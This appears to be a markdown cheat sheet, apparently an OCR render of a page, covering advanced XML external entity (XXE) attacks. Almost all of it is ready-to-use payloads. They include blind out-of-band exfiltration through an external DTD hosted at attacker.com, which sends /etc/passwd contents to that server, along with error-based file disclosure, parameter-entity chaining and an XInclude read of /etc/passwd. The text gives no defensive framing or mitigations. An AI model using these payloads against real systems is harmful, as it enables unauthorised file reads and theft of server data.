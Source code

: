 - **Advanced XXE techniques**
  
  - **Exploiting blind XXE vulnerabilities**
    
    - **Out-of-band (OOB) data exfiltration**
      - Using external DTD to extract and send data:
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE data [
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
        %dtd;
        ]>
        <data>content</data>
        ```
      - Contents of evil.dtd:
        ```xml
        <!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?data=%file;'>">
        %all;
        %send;
        ```
      - This technique sends the file contents to the attacker's server
    
    - **Error-based XXE data retrieval**
      - Using XML parsing errors to display file contents:
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE data [
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        <!ENTITY % eval "<!ENTITY error SYSTEM 'file:///nonexistent/%file;'>">
        %eval;
        %error;
        ]>
        <data>content</data>
        ```
      - The parser tries to access a file with a name derived from /etc/passwd
      - Error message will often contain the file contents
    
    - **Parameter entities for blind XXE**
      - Parameter entities (%) only used within DTD:
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE data [
        <!ENTITY % param1 "file:///etc/passwd">
        <!ENTITY % param2 "<!ENTITY exfil SYSTEM '%param1;'>">
        %param2;
        ]>
        <data>&exfil;</data>
        ```
      - Allows more complex and chained entity declarations
  
  - **XXE in different contexts**
    
    - **XInclude attacks**
      - Used when you control only a fragment of XML:
        ```xml
        <foo xmlns:xi="http://www.w3.org/2001/XInclude">
        <xi:include parse="text" href="file:///etc/passwd"/>
        </foo>
        ```
      - Works even when DOCTYPE is not controlled
      - Useful in SOAP requests, API calls, or other scenarios where XML is built server-side
    